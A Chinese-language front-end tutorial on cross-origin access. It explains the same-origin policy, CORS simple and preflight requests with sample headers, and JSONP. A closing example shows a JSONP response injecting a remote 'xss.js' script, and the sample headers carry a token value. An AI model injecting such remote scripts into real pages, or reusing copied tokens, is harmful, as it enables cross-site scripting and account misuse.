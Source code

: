 #### 跨域

**什么是跨域**

当协议、域名、端口号，有一个或多个不同时，去访问并获取数据的现象称为跨域访问，同源策略限制下 `ajax`、`cookie`、`localStorage`、`dom`都是不支持跨域的。

**为什么会出现跨域**

同源策略/SOP（Same origin policy）是一种约定，由 Netscape 公司 1995 年引入浏览器，它是浏览器最核心也最基本的安全功能，如果缺少了同源策略，浏览器很容易受到 `XSS`、`CSRF` 等攻击。

假设 cookie 支持了跨域，http 协议无状态，当用户访问了一个银行网站登录后，银行网站的服务器给返回了一个 sessionId，当通过当前浏览器再访问一个恶意网站，如果 cookie 支持跨域，恶意网站将获取 sessionId 并访问银行网站，出现安全性问题；

同源策略限制下，可以访问到后台服务器的数据，后台服务器会正常返回数据，而被浏览器给拦截了。

#### 解决方案有哪些

- **CORS（跨域资源共享 Cross-origin resource sharing）**
- **使用 jsonp 跨域**
- 利用 **node + webpack + webpack-dev-server** 转发请求
- **使用 nginx 实现跨域**
- **NodeJS 中间件 `http-proxy-middleware` 实现跨域代理**
- **使用 postMessage 实现跨域**（不是使用 `Ajax` 的数据通信，更多是在两个页面之间的通信，在 `A` 页面中引入 `B` 页面，在 `A`、`B` 两个页面之间通信）
- **使用 document.domain 实现跨域**(大多使用于同一公司不同产品间获取数据，必须是一级域名和二级域名的关系)
- **使用 location.hash 实现跨域**
- **使用 window.name 实现跨域**
- **使用 WebSocket 实现跨域**



#### CORS（跨域资源共享 Cross-origin resource sharing）

允许浏览器向跨域服务器发出XMLHttpRequest请求，从而克服跨域问题，它需要浏览器和服务器的同时支持。请求分为简单请求和非简单请求，非简单请求会先进行一次OPTION方法进行预检，看是否允许当前跨域请求。

##### 简单请求

请求方法是以下三种方法之一：

- HEAD
- GET
- POST

HTTP的请求头信息不超出以下几种字段：

- Accept
- Accept-Language
- Content-Language
- Last-Event-ID
- Content-Type：只限于三个值application/x-www-form-urlencoded、multipart/form-data、text/plain

后端的响应头信息：

- Access-Control-Allow-Origin：该字段是必须的。它的值要么是请求时Origin字段的值，要么是一个*，表示接受任意域名的请求。
- Access-Control-Allow-Credentials：该字段可选。它的值是一个布尔值，表示是否允许发送Cookie。
- Access-Control-Expose-Headers：该字段可选。CORS请求时，XMLHttpRequest对象的getResponseHeader()方法只能拿到6个基本字段：Cache-Control、Content-Language、Content-Type、Expires、Last-Modified、Pragma。如果想拿到其他字段，就必须在Access-Control-Expose-Headers里面指定。

##### 非简单请求

非简单请求是那种对服务器有特殊要求的请求，比如请求方法是PUT或DELETE，或者Content-Type字段的类型是application/json。非简单请求的CORS请求，会在正式通信之前，增加一次HTTP查询请求，称为"预检"请求（preflight）。

**预检请求**

- Access-Control-Request-Method：该字段是必须的，用来列出浏览器的CORS请求会用到哪些HTTP方法
- Access-Control-Request-Headers：该字段是一个逗号分隔的字符串，指定浏览器CORS请求会额外发送的头信息字段，上例是X-Custom-Header。

```js
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Access-Control-Request-Headers: token,uhospitalid,x-ucmed-deviceid
Access-Control-Request-Method: GET
Cache-Control: no-cache
Connection: keep-alive
Host: ru-test.zwjk.com
Origin: https://open-test.zwjk.com
Pragma: no-cache
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-site
Sec-Fetch-User: ?F
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 10_3_1 like Mac OS X) AppleWebKit/603.1.3 (KHTML, like Gecko) Version/10.0 Mobile/14E304 Safari/602.1 wechatdevtools/1.02.1910120 MicroMessenger/7.0.4 Language/zh_CN webview/15873648039943518 webdebugger port/64404
```

**预检响应**

**预检请求被拒绝**

如果浏览器否定了"预检"请求，会返回一个正常的HTTP回应，但是没有任何CORS相关的头信息字段。这时，浏览器就会认定，服务器不同意预检请求，因此触发一个错误，被XMLHttpRequest对象的onerror回调函数捕获。

```js
XMLHttpRequest cannot load http://api.alice.com.
Origin http://api.bob.com is not allowed by Access-Control-Allow-Origin.
```

**预检通过**

```js
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: content-type,token,hospitalId,from,scyUserId,uhospitalId,moduleId,x-ucmed-deviceid,userId
Access-Control-Allow-Methods: POST,GET,DELETE,PUT
Access-Control-Allow-Origin: https://open-test.zwjk.com
Access-Control-Max-Age: 3600
Connection: keep-alive
Content-Length: 0
Date: Mon, 20 Apr 2020 10:37:37 GMT
Server: nginx
```

**Access-Control-Allow-Methods**

该字段必需，它的值是逗号分隔的一个字符串，表明服务器支持的所有跨域请求的方法。注意，返回的是所有支持的方法，而不单是浏览器请求的那个方法。这是为了避免多次"预检"请求。

**Access-Control-Allow-Headers**

如果浏览器请求包括`Access-Control-Request-Headers`字段，则`Access-Control-Allow-Headers`字段是必需的。它也是一个逗号分隔的字符串，表明服务器支持的所有头信息字段，不限于浏览器在"预检"中请求的字段。

**Access-Control-Allow-Credentials**

该字段与简单请求时的含义相同。

**Access-Control-Max-Age**

该字段可选，用来指定本次预检请求的有效期，单位为秒。上面结果中，即允许缓存该条回应3600秒，在此期间，不用发出另一条预检请求。

**发送正式请求**

```js
Request Method: GET

Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Connection: keep-alive
Host: ru-test.zwjk.com
Origin: https://open-test.zwjk.com
Pragma: no-cache
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-site
Sec-Fetch-User: ?F
token: 7921adc665c22a435248cc685b606f2b
uhospitalId: ea3ee53f-fe0a-44db-8386-bdade497b235
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 10_3_1 like Mac OS X) AppleWebKit/603.1.3 (KHTML, like Gecko) Version/10.0 Mobile/14E304 Safari/602.1 wechatdevtools/1.02.1910120 MicroMessenger/7.0.4 Language/zh_CN webview/15873648039943518 webdebugger port/64404
X-ucmed-DeviceId: 
```

#### 使用 jsonp 跨域

使用场景：当自己的项目前端资源和后端部署在不同的服务器地址上，或者其他的公司需要访问自己对外公开的接口，需要实现跨域获取数据。

```js
<script>
    var script = document.createElement('script');
    script.type = 'text/javascript';

    // 传参一个回调函数名给后端，方便后端返回时执行这个在前端定义的回调函数
    script.src = 'http://www.domain2.com:8080/login?user=admin&callback=handleCallback';
    document.head.appendChild(script);

    // 回调执行函数
    function handleCallback(res) {
        alert(JSON.stringify(res));
    }
 </script>
```



#### JSONP和CORS的对比

- JSONP只支持GET请求，CORS支持所有类型的HTTP请求
- 不安全，容易引发 xss 攻击，别人在返回的结果中返回了下面代码，会把别人的脚本引入到自己的页面中执行，如：弹窗、广告等，甚至更危险的脚本程序。

```js
`let script = document.createElement('script');
script.src = 'http://192.168.0.57:8080/xss.js';
document.body.appendChild(script);`;
```



